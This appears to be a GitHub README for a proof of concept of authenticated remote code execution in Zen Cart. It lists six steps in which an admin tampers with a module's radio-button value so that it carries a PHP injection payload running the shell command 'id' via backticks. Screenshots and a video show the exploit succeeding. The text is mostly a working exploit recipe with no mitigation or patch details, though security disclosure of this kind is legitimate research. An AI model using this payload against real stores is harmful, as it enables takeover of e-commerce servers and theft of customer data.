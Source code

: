 # zencart_auth_rce_poc


1-) login as admin

2-) get any modules edit page

3-) inspect element any true radiobox

4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo \`id\`; //

5-) click update

6-) to trig command go again edit page


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)

VIDEO

![video](https://user-images.githubusercontent.com/29048982/105694076-91cac580-5f11-11eb-85b6-4b3255d90b6b.mp4)





GIF

![kanit](https://user-images.githubusercontent.com/29048982/105517880-a5471800-5ce8-11eb-8a27-84e1ef0b2c7e.gif)
